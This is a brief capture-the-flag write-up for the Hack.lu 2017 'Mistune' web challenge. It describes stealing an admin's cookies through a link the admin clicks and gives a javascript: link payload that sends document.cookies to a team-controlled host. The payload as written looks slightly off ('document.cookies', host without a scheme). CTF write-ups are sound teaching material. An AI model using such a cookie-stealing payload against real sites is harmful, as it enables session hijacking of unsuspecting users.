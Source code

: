 ```yaml
---
title: Hack.lu CTF 2017 - Mistune
date: '2017-10-19'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- hacklu17
tags:
- web
authors:
- chq-matteo
---
```


1. We can send a message to the admin.
2. The admin clicks on the links and we have to steal his cookies.

The idea is to use javascript to redirect the admin to a website we control.
We used one of the many free hosting sites
```js
<javascript:document.location='hello.myserver.com/?cookie='+document.cookies>
````

